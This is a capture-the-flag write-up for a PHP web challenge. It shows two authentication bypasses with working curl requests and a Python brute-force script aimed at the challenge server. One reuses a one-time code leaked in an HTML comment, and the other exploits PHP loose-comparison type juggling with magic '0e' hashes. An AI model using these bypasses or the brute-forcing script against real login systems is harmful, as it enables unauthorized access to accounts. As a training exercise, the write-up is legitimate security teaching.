

# Web 500 - Sith Portal

## Challenge Text:

We have found the login page for the Sith. 

If we can get administrative access to this web server, the information we could gain would be invaluable. 

Our reconnaissance team was able to get some information that may be of use to you: 

1. The email addresses associated with the Sith's accounts use the domain: `@galacticempire.com`

2. Since there are not many Siths, the length of their email is pretty sort -only 3 characters
<pre>
ex: `aaa@galacticempire.com`
</pre>

3. Some of the code used to build the web server was recovered. We have attached the zip file. 

[Link to Sith's Portal](https://challenges.silicon-ctf.party/web500/index.php)

## Hints

1. Look at all authentcation mechanism

2.  [Check out this slide deck](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)

    Think about what variables you can control

## How To Solve: 

There were two ways to solve this problem.

The most straight-forward way is to look through the source code and find there are two ways of authenticating. 

1. Logging in 
2. Some kind of one-time-password that is generated from the hash of a couple values. Both ones controlled by the end user and ones pulled from the database. 

The function that handles the one-time-pass authenication can be found in the `auth.php` file. 

```php
 function check_one_time_login($uname,$otp,$id, $e){
     if (!check_email($e)){
         return false;
     }
     $code = substr(hash("md5",$id . retreive_hash($uname) . get_otp_date($uname) . $e),0,10);
     echo '<!--  authorization_code: '.$code . ' -->'; 
    if ($code == $otp){
        return true;
    }
    else{
        return false;
    }
 }
 ```

 Looking at this code, you can determine that the "authorization code" is printed out to the html when an attempt is made this way. 

 You can make a POST request to trigger this function like this: 

 `curl -X POST -d 'uname=admin&psw=test&otp=1&e=aaa@galacticempire.com&id=1' -H 'Content-Type: application/x-www-form-urlencoded' https://challenges.silicon-ctf.party/web500/index.php`

 In the response you will see:

 `<!--  authorization_code: 15c6ff07e2 --><h6>Incorrect OTP</h6>`

 You can then take this auth code, and feed it back into your request: 

 `curl -X POST -d 'uname=admin&psw=test&otp=15c6ff07e2&e=aaa@galacticempire.com&id=1' -H 'Content-Type: application/x-www-form-urlencoded' https://challenges.silicon-ctf.party/web500/index.php`

 This will give you the flag. 


 ---

 The second way to go about solving this challenge is through type juggling. 

 The idea being that you change the variables provided to function to generate the hash and eventually you will generate a hash value that `==` 0. In PHP, the loose comparison operation of `==` does not check type before doing comparisons. So with `==` you could have 

 

 The code to solve this problem this way is avaiable here: 

 ```python
import requests
import string
import itertools
import time
import re
import hashlib

url = "https://challenges.silicon-ctf.party:443/web500/index.php"
count=1
for email in map(''.join, itertools.product(string.ascii_lowercase, repeat=int(3))):
   data = {"uname": "admin", "otp": "0", "e":f"{email}@galacticempire.com", "id":"1"}
   res=requests.post(url, data=data)
   if res.status_code != 200:
       print('\nRan into error - may need to slow down')
       break
   if "Incorrect OTP" in res.text:
       print(f'Attempt {email}@galacticempire.com ... Try #{count} ', end="\r")

   else:
       print(f'\n[*] Found bypass with: {email}@galacticempire.com')
       with open('out.html','w') as f:
           f.write(res.text)
       break
   count+=1

```
Running this, you will see that the hash generated with the email: `amk@galacticempire.com` is 0e39042609. Which in php makes the statement `0e39042609 == 0` equate to true. Thereby bypassing the authentication. 